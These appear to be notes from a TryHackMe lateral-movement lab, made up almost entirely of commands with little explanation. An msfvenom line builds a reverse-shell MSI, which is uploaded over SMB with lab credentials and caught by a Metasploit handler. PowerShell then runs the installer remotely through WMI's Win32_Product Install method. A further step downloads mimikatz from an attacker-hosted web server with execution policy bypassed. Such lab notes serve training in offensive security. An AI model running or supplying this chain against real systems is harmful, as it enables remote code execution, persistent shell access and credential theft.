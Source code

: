 












msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi


smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994

msfconsole
use exploit/multi/handler
set LHOST lateralmovement
set LPORT 4444
set payload windows/shell/reverse_tcp
exploit




$username = 't1_corine.waters';
$password = 'Korine.1994';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop


We then invoke the Install method from the Win32_Product class to trigger the payload:


Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}











└─$ sudo python3 -m http.server -b 10.50.46.14




powershell.exe -ExecutionPolicy Bypass
Invoke-WebRequest 'http://10.50.46.14:8000/mimikatz.zip' -OutFile .\mimikatz.zip
Expand-Archive .\mimikatz.zip